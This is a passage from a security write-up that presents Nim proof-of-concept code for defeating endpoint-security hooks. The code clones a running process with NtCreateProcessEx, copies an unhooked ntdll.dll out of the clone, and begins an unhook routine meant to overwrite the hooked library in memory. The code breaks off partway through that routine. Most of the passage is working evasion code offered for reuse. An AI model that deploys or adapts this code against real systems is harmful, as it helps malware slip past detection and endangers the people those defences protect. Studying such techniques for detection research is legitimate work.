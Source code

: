 # Proof of Concept

So, what does all this look like in code? 

Well, it looks mostly identical to code for unhooking from a suspended process. 
_Note: this code is also available [here](https://github.com/RePRGM/Nimperiments/blob/main/unhook-from-clone.nim)_

```nim
import winim
import ptr_math
import std/dynlib

type NtCreateProcessEx_t = proc(ProcessHandle: PHANDLE, DesiredAccess: ACCESS_MASK, ObjectAttributes: POBJECT_ATTRIBUTES, ParentProcess: HANDLE, Flags: ULONG, SectionHandle: HANDLE, DebugPort: HANDLE, ExceptionPort: HANDLE, InJob: BOOLEAN): NTSTATUS {.stdcall.}

proc toString(bytes: openarray[byte]): string =
  result = newString(bytes.len)
  copyMem(result[0].addr, bytes[0].unsafeAddr, bytes.len)

proc getCleanNTDLL(): LPVOID =
    var hNtdll = loadLib("ntdll.dll")
    
    var status: NTSTATUS
    var procOA: OBJECT_ATTRIBUTES
    var hClone: HANDLE
    var pNtdll: LPVOID

    var NtCreateProcessEx = cast[NtCreateProcessEx_t](hNtdll.symAddr("NtCreateProcessEx"))
    var hPowershell = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, 8648)

    InitializeObjectAttributes(addr procOA, NULL, 0, cast[HANDLE](NULL), NULL)

    status = NtCreateProcessEx(addr hClone, PROCESS_ALL_ACCESS, addr procOA, hPowershell, cast[ULONG](0), cast[HANDLE](NULL), cast[HANDLE](NULL), cast[HANDLE](NULL), FALSE)

    if NT_SUCCESS(status):
        echo "[+] Successfully Cloned!\n[!]New PID: ", GetProcessId(hClone), "\n"
    else:
        echo "[-] Error Cloning Process! Error Code: 0x", toHex($status)

    var mi = MODULEINFO()
    let ntdllModule = GetModuleHandleA("ntdll.dll")
    GetModuleInformation(cast[HANDLE](-1), ntdllModule, addr mi, cast[DWORD](sizeof(mi)))

    pntdll = HeapAlloc(GetProcessHeap(), 0, mi.SizeOfImage)
    var dwRead: SIZE_T
    let bSuccess = ReadProcessMemory(hClone, cast[LPCVOID](mi.lpBaseOfDll), pNtdll, mi.SizeOfImage, addr dwRead)
    if bSuccess == 0:
      echo "Failed in reading ntdll: ", GetLastError()
      quit(QuitFailure)
    return pntdll

proc unhook(cleanNtdll: LPVOID): bool =
    var 
        oldprotect: DWORD = 0
        SectionHeader: PIMAGE_SECTION_HEADER
    
    let low: uint16 = 0
    let hNtdll: HMODULE = GetModuleHandleA("ntdll.dll")
    let DOSHeader: PIMAGE_DOS_HEADER = cast[PIMAGE_DOS_HEADER](cleanNtdll)
```